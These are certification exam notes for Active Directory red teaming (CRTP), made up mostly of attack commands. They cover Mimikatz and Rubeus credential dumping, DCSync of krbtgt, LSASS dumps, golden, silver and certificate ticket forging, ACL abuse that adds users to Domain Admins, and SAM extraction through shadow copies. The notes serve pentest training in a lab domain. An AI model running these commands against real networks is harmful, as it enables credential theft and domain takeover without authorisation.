









# CRTP Exam Notes — All-in-One Master Cheat Sheet

> Converted and refined from the 59-page handwritten CRTP exam notes. Optimized for single-page searching (`Ctrl+F`), fast command lookup, and exam execution.

**Author:** Gokul Amaran | [LinkedIn](https://linkedin.com/in/gokulamaran) | [Website](https://www.gokulamaran.me)

---

## 00 — Quick Reference & Exam Command Cheat Sheet

> [!TIP]
> **Exam Strategy:** Use this quick reference during the CRTP exam for fast syntax lookup. Replace placeholders such as `<DOMAIN>`, `<USER>`, `<TARGET>`, `<AES256_KEY>`, `<DOMAIN_SID>`, and `<KRBTGT_AES256>` with your target lab/exam environment values.

### PowerView vs. ActiveDirectory Module Comparison Matrix

| Action / Query | PowerView (Dev branch) | ActiveDirectory RSAT Module |
| :--- | :--- | :--- |
| **Get Current Domain** | `Get-Domain` | `Get-ADDomain` |
| **Get Domain Controllers** | `Get-DomainController` | `Get-ADDomainController` |
| **Get Users** | `Get-DomainUser` | `Get-ADUser -Filter *` |
| **Get Specific User** | `Get-DomainUser -Identity <USER>` | `Get-ADUser -Identity <USER> -Properties *` |
| **Get User SPNs (Kerberoasting)**| `Get-DomainUser -SPN` | `Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName` |
| **Get AdminCount Users** | `Get-DomainUser -AdminCount` | `Get-ADUser -Filter {AdminCount -eq 1}` |
| **Get Domain Computers** | `Get-DomainComputer` | `Get-ADComputer -Filter * -Properties *` |
| **Get Domain Groups** | `Get-DomainGroup` | `Get-ADGroup -Filter *` |
| **Get Group Members** | `Get-DomainGroupMember -Identity <GROUP>` | `Get-ADGroupMember -Identity <GROUP>` |
| **Get OUs** | `Get-DomainOU` | `Get-ADOrganizationalUnit -Filter *` |
| **Get GPOs** | `Get-DomainGPO` | `Get-ADGPO -All` |
| **Get Domain Trusts** | `Get-DomainTrust` | `Get-ADTrust -Filter *` |
| **Get Forest Trusts** | `Get-ForestTrust` | `Get-ADForest \| %{ Get-ADTrust -Filter * }` |
| **Get Domain Object ACLs** | `Get-DomainObjectAcl -Identity <NAME>` | `(Get-ACL 'AD:\CN=...').Access` |

### ACL & Object Permission Privilege Abuse Matrix

| Privilege / Right | Impact / Vector | Execution Command |
| :--- | :--- | :--- |
| **GenericAll** | Full control over target object | Modify group membership, reset password, or shadow credentials |
| **GenericWrite** | Update object attributes | `Set-DomainObject -Identity <TARGET> -Set @{'scriptpath'='...'} ` |
| **WriteDacl** | Modify object DACL / permissions | `Add-DomainObjectAcl -TargetIdentity <TARGET> -PrincipalIdentity <USER> -Rights All` |
| **WriteOwner** | Take ownership of target object | `Set-DomainObjectOwner -TargetIdentity <TARGET> -PrincipalIdentity <USER>` |
| **ForceChangePassword** | Reset target user's password without knowing old password | `$pw = ConvertTo-SecureString 'P@ss123!' -AsPlainText -Force`<br>`Set-ADAccountPassword -Identity <USER> -Reset -NewPassword $pw` |
| **AddMembers** | Add arbitrary accounts to privileged domain groups | `Add-DomainGroupMember -Identity '<GROUP>' -Members '<USER>'` |
| **DCSync (GetChangesAll)** | Replicate secret hashes directly from DC | `lsadump::dcsync /user:<DOMAIN_SHORT>\krbtgt` |

### PowerShell Script & Module Loading

```powershell
# Dot-source a script in memory/session
. C:\AD\Tools\PowerView.ps1

# Import Microsoft Active Directory module without RSAT installation
Import-Module C:\AD\Tools\ADModule-master\ActiveDirectory\ActiveDirectory.psd1

# List available commands inside an imported module
Get-Command -Module ActiveDirectory
```
> **Source:** handwritten pp. 7–8.

### Core Domain Enumeration

```powershell
# Enumerate basic domain architecture
Get-Domain
Get-DomainController

# User enumeration
Get-DomainUser
Get-DomainUser -Identity <USER>
Get-DomainUser -AdminCount
Get-DomainUser | Select-Object -ExpandProperty samaccountname

# Computer enumeration
Get-DomainComputer
Get-DomainComputer | Select-Object -ExpandProperty dnshostname

# Group enumeration
Get-DomainGroup
Get-DomainGroup -Identity 'Domain Admins'
Get-DomainGroupMember -Identity 'Domain Admins'
```
> **Source:** handwritten pp. 9–13.

### ACL & Object Rights Enumeration

```powershell
# Inspect ACLs on sensitive groups (e.g. Domain Admins)
Get-DomainObjectAcl -Identity 'Domain Admins' -ResolveGUIDs

# Find ACL entries matching a specific user or group
Get-DomainObjectAcl -ResolveGUIDs |
  Where-Object { $_.IdentityReferenceName -match '<USER_OR_GROUP>' }

# Find interesting / non-default ACLs across the domain
Find-InterestingDomainAcl -ResolveGUIDs |
  Where-Object { $_.IdentityReferenceName -match '<USER_OR_GROUP>' }
```
> **Source:** handwritten p. 11.

### OU & GPO Enumeration

```powershell
# Enumerate Organizational Units
Get-DomainOU
Get-DomainOU | Select-Object -ExpandProperty name

# Inspect Group Policy Objects & GPLink on an OU
Get-DomainGPO
Get-DomainGPO -Identity '<GPO_NAME_OR_GUID>'
(Get-DomainOU -Identity <OU>).gplink

# List computers residing within a specific OU
(Get-DomainOU -Identity <OU>).distinguishedname |
  ForEach-Object { Get-DomainComputer -SearchBase $_ } |
  Select-Object name
```
> **Source:** handwritten p. 12.

### Domain & Forest Trust Enumeration

```powershell
# PowerView trust enumeration
Get-DomainTrust
Get-ForestDomain -Verbose
Get-ForestDomain | ForEach-Object { Get-DomainTrust -DomainName $_.Name }

# AD Module trust enumeration
(Get-ADForest).Domains
Get-ADTrust -Filter *
Get-ADForest | ForEach-Object { Get-ADTrust -Filter * }
```
> **Source:** handwritten pp. 13–14.

### Local Admin, Sessions & Share Discovery

```powershell
# Find machines where current user has local admin rights
Find-LocalAdminAccess

# Enumerate active network sessions and shared folders
Get-NetSession
Find-DomainShare

# Check PSRemoting administrative access
. C:\AD\Tools\Find-PSRemotingLocalAdminAccess.ps1
```

```cmd
# Connect remotely via WinRM CLI
winrs -r:<TARGET> cmd
```

```powershell
# Connect remotely via PowerShell Remoting
Enter-PSSession -ComputerName <TARGET>
```
> **Source:** handwritten pp. 10, 16.

### Local Privilege Escalation (PowerUp / SCM)

```powershell
# Run all PowerUp local privilege escalation checks
. C:\AD\Tools\PowerUp.ps1
Invoke-AllChecks

# Service abuse pattern to elevate to local admin/SYSTEM
Invoke-ServiceAbuse -Name '<VULNERABLE_SERVICE>' -Username '<DOMAIN>\<USER>' -Verbose
```
> **Source:** handwritten p. 14.

### Credential Extraction Quick Commands

```cmd
# Evasive / direct sekurlsa execution
mimikatz.exe "sekurlsa::ekeys" "exit"
SafetyKatz.exe "sekurlsa::ekeys" "exit"
```

```text
# Interactive Mimikatz commands
mimikatz # privilege::debug
mimikatz # token::elevate
mimikatz # sekurlsa::logonpasswords
mimikatz # lsadump::secrets
```
> **Source:** handwritten pp. 22, 39, 56.

### Kerberos Ticket Abuse (OPTH / Golden / Silver)

```text
# Mimikatz OPTH
sekurlsa::pth /user:<USER> /domain:<DOMAIN> /aes256:<AES256_KEY> /run:cmd.exe

# Rubeus OPTH (Standard & Opsec/Elevated NetOnly)
Rubeus.exe asktgt /user:<USER> /aes256:<AES256_KEY> /ptt
Rubeus.exe asktgt /user:<USER> /aes256:<AES256_KEY> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```

```text
# Dump krbtgt account hash (Requires Replicate Directory Changes rights)
lsadump::dcsync /user:<DOMAIN_SHORT>\krbtgt
```

```cmd
# Forge TGT using krbtgt key
Rubeus.exe golden /aes256:<KRBTGT_AES256> /sid:<DOMAIN_SID> /ldap /user:Administrator /printcmd
```

```cmd
# Forge Service Ticket using target service account key
Rubeus.exe silver /service:http/<TARGET_FQDN> /aes256:<SERVICE_AES256> /sid:<DOMAIN_SID> /ldap /user:Administrator /domain:<DOMAIN>
```

> **Source:** handwritten pp. 23–24, 31–32.

---

## 01 — AD + PowerShell Foundations

> [!NOTE]
> Active Directory (AD) serves as Microsoft's centralized Identity and Access Management (IAM) infrastructure. Understanding the underlying authentication flows (Kerberos and NTLM) is mandatory before attempting domain exploitation.

### Security Principals & Objects

- **Users:** Individual user identities authenticated by the Domain Controller (DC).
- **Computers/Machines:** Machine identities represented in AD with a trailing `$` (e.g., `DC01$`, `WEBSRV01$`). Machine account passwords rotate automatically every 30 days by default.
- **Groups:** Security groups used to assign rights and permissions to users/computers.
- **Service Accounts:** Accounts used to run services/daemon processes (Managed Service Accounts, gMSAs, or standard user accounts with SPNs).

> **Source:** handwritten p. 1.

### Active Directory Core Architecture



> **Source:** handwritten pp. 1–2, 6–7.

### Kerberos Authentication Architecture



> **Source:** handwritten pp. 2–3.

### NTLM Challenge/Response Authentication



> **Source:** handwritten p. 4.

---

## 02 — Domain / ACL / OU / GPO / Trust Enumeration

```powershell
# PowerView: Get details for current domain
Get-Domain
Get-DomainController

# PowerView: User enumeration
Get-DomainUser
Get-DomainUser -Identity <USER>
Get-DomainUser -AdminCount
Get-DomainUser -SPN | Select-Object samaccountname,serviceprincipalname

# PowerView: Computer & Group enumeration
Get-DomainComputer
Get-DomainGroup
Get-DomainGroupMember -Identity 'Domain Admins'

# PowerView: ACL & Trust enumeration
Get-DomainObjectAcl -Identity 'Domain Admins' -ResolveGUIDs
Get-DomainTrust
Get-ForestDomain -Verbose
```
> **Source:** handwritten pp. 9–14.

---

## 03 — ACL, GPO, Jenkins and Permission Delegation Abuse



### Delegation Exploitation Snippets

```powershell
# Add Member to privileged group
Add-DomainGroupMember -Identity 'Domain Admins' -Members 'student1'

# Force Password Reset
$Password = ConvertTo-SecureString 'NewPassword123!' -AsPlainText -Force
Set-ADAccountPassword -Identity 'svc_backup' -Reset -NewPassword $Password
Set-ADUser -Identity 'svc_backup' -ChangePasswordAtLogon $false
```
> **Source:** handwritten pp. 14, 17–20, 36–38.

---

## 04 — Local Admin Hunting + Lateral Movement

| Method | Protocol / Ports | Requirements | OPSEC / Noise Level |
| :--- | :--- | :--- | :--- |
| **WinRM / PSRemoting** | HTTP (5985) / HTTPS (5986) | Local Admin / Remote Management Users | **Low** |
| **WMI (wmic / Invoke-WmiMethod)** | RPC (135) + Dynamic RPC | Local Admin rights | **Low/Medium** |
| **Service Control (sc.exe)** | SMB (445) / RPC | Local Admin rights | **Medium** |
| **PsExec** | SMB (445) | Local Admin + `ADMIN$` share | **High** |



```cmd
# Netsh Portproxy port forwarding
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=8080 connectaddress=10.10.10.50
```
> **Source:** handwritten pp. 16, 20–21, 26, 28, 32–36.

---

## 05 — Credential Access + LSASS + DCSync



```cmd
# Dump LSASS via ProcDump
procdump.exe -accepteula -ma lsass.exe C:\AD\Tools\lsass.dmp

# Execute DCSync via Mimikatz
lsadump::dcsync /user:<DOMAIN_SHORT>\krbtgt
```
> **Source:** handwritten pp. 21–24, 26–31, 53, 55–57.

---

## 06 — Kerberos, Tickets and Delegation



```cmd
# Execute S4U Constrained Delegation via Rubeus
Rubeus.exe s4u /user:<DELEGATED_USER> /aes256:<AES256_KEY> /impersonateuser:Administrator /msdsspn:cifs/<TARGET_FQDN> /ptt
```
> **Source:** handwritten pp. 31–32, 38–41, 48.

---

## 07 — AD CS + Persistence



```cmd
# Request TGT using ESC1 Certificate via Rubeus
Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:C:\AD\Tools\cert.pfx /password:P@ss123! /outfile:C:\AD\Tools\admin_tgt.kirbi /domain:dcorp.moneycorp.local /dc:dcorp-dc.dcorp.moneycorp.local /ptt

# ForgeCert Golden Certificate generation
ForgeCert.exe --CaCertPath C:\AD\Tools\ca.pfx --CaCertPassword P@ss123! --Subject "CN=Administrator" --SubjectAltName Administrator@dcorp.moneycorp.local --NewCertPath C:\AD\Tools\forged_admin.pfx --NewCertPassword P@ss123!
```
> **Source:** handwritten pp. 45–47, 49–51.

---

## 08 — Credential Hunting + SAM / NTDS / Windows Vault



```cmd
# Volume Shadow Copy (VSS) SAM & SYSTEM dump
wmic shadowcopy call create Volume='C:\'
vssadmin list shadows
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SAM C:\AD\Tools\SAM
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\AD\Tools\SYSTEM

# Extract local account hashes offline using Impacket
python3 /opt/impacket/examples/secretsdump.py -sam SAM -system SYSTEM LOCAL
```
> **Source:** handwritten pp. 41–44, 52–55, 57–59.

---

## 09 — Page-by-Page Topic Map

See the modular topic map in [09-PAGE-MAP.md](github/09-PAGE-MAP.md) for the complete 59-page handwritten matrix.

---

## 10 — Ambiguous Handwriting / Verify Before Exam

See the lab verification matrix in [10-VERIFY-FROM-ORIGINAL.md](github/10-VERIFY-FROM-ORIGINAL.md) for expected tool syntaxes and fallback options.
